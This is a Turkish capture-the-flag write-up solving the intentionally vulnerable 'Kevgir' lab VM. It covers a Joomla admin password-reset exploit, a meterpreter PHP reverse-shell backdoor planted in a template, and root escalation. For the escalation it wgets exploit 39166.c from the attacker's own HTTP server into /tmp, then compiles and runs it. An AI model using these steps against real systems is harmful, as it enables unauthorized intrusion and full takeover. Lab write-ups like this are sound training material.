



CanYouPwnMe’nin hazırlamış olduğu Kevgir adlı makineyi bu yazımla beraber çözmüş olacağız..
İlk olarak makineyi virtualbox’ımıza kurduktan sonra hangi IP adresini aldığını öğrenmek için netdiscover aracından yararlanmaktayız. Net discoverin sonucunda aşağıdaki resimde de görüldüğü gibi 192.168.1.104 IP adresini aldığını buluyoruz. Bundan sonraki işlemleri bu IP adresi üzerinden yapacağız.
IP adresini de bulduğumuza göre, şimdi nmap ile port taramasını yaparak açık (open) olan servisleri (services) ve versiyonları (version) öğrenmiş olacağız. Taramayı yaptıktan sonra ise 8081 portunun açık olduğunu ve çalıştığını gördük.
Makinenin sahip olduğu IP adresini tarayıcıda açtığımızda karşımıza KEVGIR yazılır bir ekran gelmektedir.
8081 Portundan ilerleyeceğimizden dolayı, ilk olarak tarayıcıda 192.168.1.104:8081 adresini ziyaret ettik. Karşımıza Joomla’nın sayfası çıktı.
Herkes tarafından biliniyor ki joomla, bir web sitenin cms’si ( Content Management System) olarak geçmektedir ve biliyoruz ki joomla’nın bu sürümü exploit (istismar) etmeye müsaittir. Bu yüzden joomscan komutu ile bir scan işlemi yapıyoruz. joomscan -u http://192.168.1.104:8081 (IP adresini kendi makinenizinki ile değiştirmeyi unutmayın.) Tarama sonucu açık olan exploitleri gördük. Bunların arasından dikkatimizi çeken CVE-2008-3681 kodu olan Remote Admin Change Password adlı exploit dikkatimizi çekiyor.

İnternet üzerinden yaptığımız araştırmalar sonucu Joomla’nın admin panelindeki şifreyi değiştirebildiğimizi öğreniyoruz. Detaylı açıklamalar https://www.exploit-db.com/exploits/6234 burada yer alırken, şifreyi değiştirmek için 192.168.1.104:8081/ index.php?optiona=com_user&view=reset&layout=confirm adresine gitmemiz gerektiğini görmüş olduk.
Siteye gider gitmez karşımıza bir token ekranı geldi. Buraya tek tırnak (‘) sembolünü koyup submit’e tıklıyoruz.
Submit ettikten sonra karşımıza resetleme ekranı gelmiş bulunmaktadır. Buradaki şifreyi istediğiniz bir şifre ile değiştirebilirsiniz.
Şifreyi değiştirdikten sonra karşınıza bir login ekranı gelmektedir. Buradaki username “admin” password ise az önce yapmış olduğunuz şifredir.
Başarıyla login olduktan sonra karşınıza administrator ekranı gelmektedir.
Buradan sonra bir backdoor işlemi yapacağız. PHP ile oluşturacağımız backdooru siteye yüklememiz gerekmektedir. Bunun için Extensions sekmesine gelip oradan da Template Manager’ı seçiyoruz.

Karşımıza gelen ekranda iki tane kullanıcı görüyoruz. Biz işlemlerimizi beez üzerinden yapacağımız için beez’i seçip devam ediyoruz.
Beez’i seçtikten sonra karşımıza gelen ekran aşağıdaki gibidir. Buradan da Edit HTML seçiyoruz.
Edit HTML sayfası geldikten sonra kutunun içine oluşturacağımız php backdoorunu koyacağız. Bunun için kutunun içindeki tüm yazıları siliyoruz.
Açtığımız yeni bir terminal ekranında msfvenom ile bir php backdooru oluşturuyoruz. Buradaki host saldırı yapacağımız makinenin IP adresi. Buna dikkat etmekte fayda var. Backdoor oluştuktan sonra
Bunları yaparken msfconsole üzerinden dinleyeceğimiz için yeni bir terminal ekranında msfconsole açıyoruz. Exploit olarak multi/handler kullanacağız. Payload olarak ise php/meterpreter/reverse_tcp kullanıyoruz. Host ve port’ların oluşturduğumuz backdoor ile aynı olmasına dikkat ettikten sonra exploit diyip dinlemeye geçiyoruz.
Backdoorun düzgünce çalışması için HTML’i save ettikten sonra beez sayfasına dönnüyoruz. Buradan da Preview sekmesine tıklayarak sızma işlemini tamamlıyoruz.
Sızdıktan sonra Shell almamız gerektiği için komut satırına Shell yazıyoruz. Shell’i aldıktan sonra işlemlerimizi yapabilmemiz için etkileşimli shell almamız gerekmektedir. Bunun için 2 adet python komutundan yararlanmaktayız. python -c ‘import pty;pty.spawn(“/bin/bash”)’
LSB modüllerinin olup olmadığını görmek için lsb_release -a komutunu etkileşimli shelle’e yazıyoruz. Aşağıdaki resimdeki gibi olmadığı görüyoruz.
Buradan sonra yetki yükseltme saldırısı yapacağımız için hangi dosyaların yazılabilir olduğunun öğrenmemiz gerekiyor. Bunun için ise find / -writable -type d 2>/dev/null komutunu kullanıyoruz. Oldukça fazla olan listede gözümüze ilk çarpan /tmp klasörü olmaktadır. Bu tarz makinelerin çoğunda indirme tarzı işlemleri genellikle tmp klasöründen yapılmaktadır.
Bu bilgileri aklımızda tuttuktan sonra yeni bir terminal ekranından ssh ile admin sunucusuna bağlanıyoruz. ssh admin@192.168.1.104 -p 1322 komutu ile bağlandıktan hemen sonra şifre girmemizi istiyor. Bu şifre oluşturduğumuz şifredir. Şifreyi girdikten sonra başarılı bir şekilde sunucuya bağlanıyoruz.
Bağlandıktan hemen sonra uname -a komutu ile hangi kernel sürümünü kullandığını öğreniyoruz. Burada Ubuntu 14.04 sürümü olduğunu görüyoruz. Kernel sürümünü öğrendikten sonra internet üzerinden yaptığımız bir araştırma ile 39166.c dosyası ile root yetkisi alabileceğimizi öğreniyoruz. Detaylı bilgileri https://www.exploit-db.com/exploits/39166 adresinden öğrenebilirsiniz.

Exploitdb üzerinden 39166 dosyasını ilk önce kendi bilgisayarımıza indiriyoruz. İndirdikten sonra terminale python -m SimpleHTTPServer 9000 komutu ile Directory Listening açıyoruz.
Bu komutu girdikten sonra, tarayıcımıza girip 192.168.1.103:9000 yazıyoruz (IP adresinin kendi IP adresi ile değiştirmeyi unutmayın.). Karşımıza gelen web sayfasında kodun ismi olan 39166.c’nin üzerine tıklayıp url kısmını kopyalıyoruz.
Url’yi aldıktan sonra tekrar sızma işlemini yaptığımız terminale dönüyoruz. Burada kodu indirmemiz gerektiği için temp (/tmp) dosyasına girmemiz gerekmektedir çünkü temp bize indirme işlemine izin vermektedir. Genellikle bu tarz makinelerin hepsinde bu böyledir ama ls -la komutu ile izinleri kontrol etmekte fayda var. cd /tmp komutu ile temp klasörünün içerisine giriyoruz. Girdikten sonra kopyaladığımız url’yi wget http://192.168.1.103:9000/39166.c komutu ile indiriyoruz.

Tmp içine girdikten sonra indirdiğimiz kodu derlememiz gerekmektedir. Bunun için gcc komutunun kullanıyoruz. gcc 39166.c -o privs komutu ile derledikten sonra ardına outputumuz olan privs’e chmod ile yetki veriyoruz. Bunun için chmod 777 privs komutunnu kullanıyoruz. Yetki verdikten sonra ise outputu ./privs ile çalıştırıyoruz. İşlem bittikten sonra komut satırına id yazdığımızda bizim root olduğumuzu göstermektedir.
Bir başka root olduğumuzu gösteren kanıt ise banner dosyasının içindeki kevgir dosyasıdır. Bunu cat kevgir diyerek açtığımızda karşımıza KEVGIR yazısı gelmektedir.
Bilgilendirme yazım bitmiştir. Vakit ayırdığınız için teşekkür ederim. Bir sonraki writeup’da görüşmek üzere.